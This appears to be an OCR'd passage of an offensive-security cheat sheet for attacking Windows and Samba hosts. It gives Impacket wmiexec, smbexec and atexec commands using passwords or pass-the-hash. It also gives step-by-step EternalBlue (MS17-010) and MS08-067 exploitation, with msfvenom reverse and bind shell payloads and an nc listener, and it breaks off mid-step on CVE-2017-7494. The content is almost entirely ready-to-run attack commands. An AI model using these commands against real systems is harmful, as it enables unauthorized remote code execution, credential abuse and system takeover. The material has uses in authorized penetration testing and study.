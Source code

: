 wmiexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
wmiexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

smbexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
smbexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

atexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP> <COMMAND>
atexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>
EternalBlue (MS17-010)
https://github.com/3ndG4me/AutoBlue-MS17-010
Check if vulnerable
python eternal_checker.py <IP>
Prepare shellcodes and listeners
cd shellcode
./shell_prep.sh
cd ..
./listener_prep.sh
Exploit
python eternalblue_exploit<NUMBER>.py <IP> shellcode/sc_all.bin

May need to run it multiple times
If this doesn’t work, try this one
python zzz_exploit.py <IP>
MS08-067
# Download exploit code
git clone https://github.com/andyacer/ms08_067.git

# Generate payload
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
msfvenom -p windows/shell_bind_tcp RHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

# Modify
Modify ms08_067_2018.py and replace the shellcode variable by the one generated with msfvenom.

# Listener
nc -lvp <PORT>

# Exploit
python ms08_067_2018.py <IP> <NUMBER> 445
CVE-2017-7494
# Download exploit code
git clone https://github.com/joxeankoret/CVE-2017-7494
Create a new file named poc.c :
